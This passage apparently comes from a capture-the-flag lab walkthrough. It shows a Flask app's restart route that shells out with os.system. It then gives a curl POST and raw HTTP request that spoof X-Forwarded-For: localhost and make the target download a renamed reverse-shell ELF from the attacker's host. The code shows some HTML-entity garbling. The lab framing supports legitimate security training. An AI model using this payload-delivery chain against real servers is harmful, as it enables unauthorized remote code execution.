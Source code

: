 ```python
        appHash = binascii.hexlify(hasher.digest()).decode()
    return(&#34;1.0.0b{}&#34;.format(appHash))

@app.route(&#39;/restart&#39;, methods = [&#34;GET&#34;, &#34;POST&#34;])
def restart():
    if request.method == &#34;GET&#34;:
        return(render_template(&#34;restart.html&#34;))
    else:
        os.system(&#34;killall app&#34;)
        os.system(&#34;bash -c &#39;/home/clumsyadmin/app&&#39;&#34;)
        return(&#34;Restart Successful.&#34;)
```

```shell
os.system("bash -c '/home/clumsyadmin/app&'") 
```

We can see under the restart function that the system makes a call to the `app` file, lets rename our payload and try to run it again.

```shell
cp shell.elf > app

curl -v -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/app"}' -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" http://192.168.245.134:13337/update
```

```http
POST /update HTTP/1.1

Host: 192.168.214.134:13337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

X-Forwarded-For: localhost

Content-Type: application/json

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 69



{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/app"}
```
